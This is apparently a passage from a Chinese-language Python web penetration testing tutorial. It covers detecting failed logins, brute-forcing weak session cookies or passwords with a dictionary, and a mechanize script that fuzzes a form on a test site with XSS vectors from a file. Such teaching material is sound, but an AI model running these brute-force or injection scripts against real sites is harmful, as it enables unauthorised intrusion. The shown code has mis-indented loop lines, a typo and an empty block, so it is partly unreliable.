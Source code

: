 ```py

```

在这里，我们可以分析响应并确认登录。为此，我们必须搜索错误消息的响应。如果在响应中找不到错误消息，那么登录将成功。

在上面的例子中，我们可以检查是否被带回登录页面。如果我们被带回登录页面，登录失败：

```py
    # check if we were taken back to the login page or not 

    if content.find('<input type="password" name="passwd" />') > 0: 

         print "Login failed" 

```

我们还可以修改此脚本以暴力破解可预测或不太随机的会话 cookie。为此，我们必须分析身份验证 cookie 的模式。我们还可以用字典中的单词替换密码。代码将与我们为注入所做的相同，攻击向量将被字典文件中提供的单词替换。

# 跨站脚本（XSS）

跨站脚本也是一种注入攻击类型，当攻击者注入恶意攻击向量以浏览器端脚本的形式时发生。这是在 Web 应用程序使用用户的输入来构建输出而不进行验证或编码时发生的。

我们可以修改用于注入 SQL 攻击向量的脚本以测试 XSS 注入。为了验证输出响应，我们可以在响应中搜索预期的脚本：

```py
import mechanize 

url = "http://www.webscantest.com/crosstraining/aboutyou.php" 

browser = mechanize.Browser() 

attackNumber = 1 

with open('XSS-vectors.txt') as f: 

    for line in f: 

         browser.open(url) 

         browser.select_form(nr=0) 

         browser["fname"] = line 

         res = browser.submit() 

         content = res.read() 

         # check the attack vector is printed in the response. 
         if content.find(line) > 0: 

               print "Possible XXS" 

   output = open('response/'+str(attackNumber)+'.txt', 'w') 

   output.write(content) 

   output.close() 

   print attackNumber 

   attackNumber += 1 

```
